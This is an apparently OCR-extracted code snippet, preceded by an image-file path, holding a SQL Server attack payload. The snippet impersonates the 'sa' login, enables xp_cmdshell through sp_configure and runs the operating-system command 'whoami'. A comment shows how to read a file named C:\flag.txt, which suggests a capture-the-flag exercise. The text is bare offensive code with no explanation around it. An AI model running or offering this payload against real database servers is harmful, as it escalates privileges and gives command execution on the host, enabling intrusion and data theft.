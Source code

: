 EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;        RECONFIGURE;
EXEC xp_cmdshell 'whoami';
-- read example: EXEC xp_cmdshell 'type C:\\flag.txt';
